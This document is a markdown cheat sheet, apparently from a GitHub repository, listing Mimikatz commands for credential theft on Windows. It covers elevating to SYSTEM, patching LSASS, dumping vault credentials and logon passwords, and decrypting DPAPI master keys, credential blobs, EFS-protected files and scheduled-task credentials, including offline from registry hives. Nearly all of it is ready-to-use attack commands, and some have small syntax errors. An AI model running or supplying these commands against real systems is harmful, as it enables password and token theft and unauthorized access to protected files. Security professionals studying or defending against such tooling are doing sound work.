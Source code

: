 # MIMIKATZ

## Author: https://github.com/gentilkiwi/mimikatz

### Miscellaneous

1) Shows privileges on machine ( Ensure output is "20 OK")

       privilege::debug

2) Impersonate SYSTEM

       token::elevate

De-escalate from SYSTEM

    token::revert

3) Altering LSASS Logic (Dump network share credentials, RDP passwords, etc. Not recommended.)

Prevent LSASS from checking the credential type

    sekurlsa::patch 

### Credentials Dumping

1) Windows Vault stored credentials dumping (passwords and authentication tokens)

       vault::cred

2) Web Credentials Dumping

       vault::list

3) Extract Credentials with DPAPI

        dpapi::cred /in"%appdata%\Microsoft\Credentials\85HJK6B5J456KJ46KJ546435H3JK"

#### If dwFlags includes CRYPTPROTECT_SYSTEM, the blob is protected by the system and cannot be decrypted by a standard user. The guidMasterKey indicates the necessary master key for decryption.

Extract the master key

        dpapi::masterkey /in:"%appdata%\Microsoft\Protect\S-1-5-21-341242153252-423423531651-2536513646524-1104\cc354534jkb534jb5-09f8-dd24-fe8fr798fed"

BONUS: RPC for Domain Controllers

#### Domain controllers can decrypt master keys for authorized users using the RPC service.

        dpapi::masterkey /in:"%appdata%\Microsoft\Protect\S-1-5-21-341242153252-423423531651-2536513646524-1104\cc354534jkb534jb5-09f8-dd24-fe8fr798fed" /rpc

Final decryption

        dpapi::cred /in"%appdata%\Microsoft\Credentials\85HJK6B5J456KJ46KJ546435H3JK"

4) Decrypt Encrypted File System (EFS) Files

Decrypting EFS files involves:

#### 1) Retrieving and exporting the necessary certificate

#### 2) Locating and exporting the associated private key

#### 3) Decrypting the master key using the user password

#### 4) Using the decrypted master key to decrypt the private key

#### 5) Applying the decrypted private key to access the encrypted file

### PREREQUISITES:

#### 1) Encrypted file(s) access on a Windows System

#### 2) User's systemCertificates, Crypto and Protect folders. Location:

       C:\Users\USERNAME\AppData\Roaming\Microsoft

#### 3) Master key or a way to decrypt it. It can be any of the following: User's password, SHA1, NTLM, Domain Backup Key or a memory dump. We will use a password for this example.

### STEPS:

##### 1) Get information about the encrypted file (Provides details like the certificate's fingerprint for example)

       cipher /c "C:\Users\USERNAME\Documents\encrypted.txt"

##### 2) Export the certificate (This command saves the certificate to a .der file)

       crypto::system /file:"C:\Users\USERNAME\AppData\Roaming\Microsoft\SystemCertificates\My\Certificates\G89ED7G8DF6G8DGDF9878GV98DF" /export

##### 3) Locate and export the Private Key

       dpapi::capi /in:"C:\Users\USERNAME\AppData\Roaming\Microsoft\Crypto\RSA\S-1-5-21-22353253535-164576453735-12352462464-1001\78fed6gf87edg687e6gg_e7fgegferger-jj54-dd09-214f-fwesfsefs"

#### TIP: Check if the pUniqueName field matches the container name from the certificate export step

##### 4) Decrypt the Master Key

       dpapi::masterkey /in:"C:\Users\USERNAME\AppData\Roaming\Microsoft\Protect\S-1-5-21-22353253535-164576453735-12352462464-1001\1oiknjui1jkhui-4771-4578-o90x-fefs89f7s9" /password:USERPASS

##### 5) Decrypt the Private Key

       dpapi::capi /masterkey:DECRYPTED_MASTERKEY /in:"C:\Users\USERNAME\AppData\Roaming\Microsoft\Crypto\RSA\S-1-5-21-22353253535-164576453735-12352462464-1001\78fed6gf87edg687e6gg_e7fgegferger-jj54-dd09-214f-fwesfsefs"

##### 6) Decrypt the EFS file (Use the decrypted key. This step may involve using additional tools or scripts to apply the private key and decrypt the file content)

5) Scheduled Tasks Credentials Dumping (Various Methods)

### 1: Vault Credentials Method

#### After creating a scheduled task, Windows stores a copy of the task credential in the owner's credential vault. Use mimikatz to dump them.

       vault::cred 

OR

       sekurlsa::credman 

OR 

       sekurlsa::logonpasswords

### 2: Elevating to SYSTEM

#### To access system credentials, elevate to SYSTEM and request the credentials.

       privilege::debug

       token::elevate

       vault::cred 

#### To expose the credential, use the patch option:

       vault::cred /patch

### 3: DPAPI Method

#### List the directory contents 

       dir /a %systemroot%\System32\config\systemprofile\AppData\Local\Microsoft\Credentials

#### Decrypt the credential blob with Mimikatz

       dpapi::cred /in:"%systemroot%\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\AA89A7SDFASFDAS9879A87FD9C"

### 4: Extracting DPAPI Master Keys

#### Extract and use DPAPI master keys

       sekurlsa::dpapi

#### Use the master key to decrypt the credential blob

       dpapi::cred /in:"%systemroot%\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\AA89A7SDFASFDAS9879A87FD9C" /masterkey:35jknb65nj3k4b6jh43b6jhvb43jh6vhj45v64jh5kj37ghjh8g6jhg9j78hg9j6hjh645g63j535235i23kjh

### 5: Offline Method

#### To retrieve credentials offline, dump secrets from SYSTEM and SECURITY files

       lsadump::secrets /system:c:\temp\SYSTEM /security:c:\temp\SECURITY

#### Extract and decrypt master key

       dpapi::masterkey /in:"%systemroot%\System32\Microsoft\Protect\S-1-5-18\User\5n3j5hb-f998-ss09-24fd-ff53-4234235r235r2 /system:wf97s98f7wse98f7w9esf79we

#### Decrypt the credential blob

       dpapi::cred /in:"%systemroot%\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\AA89A7SDFASFDAS9879A87FD9C"

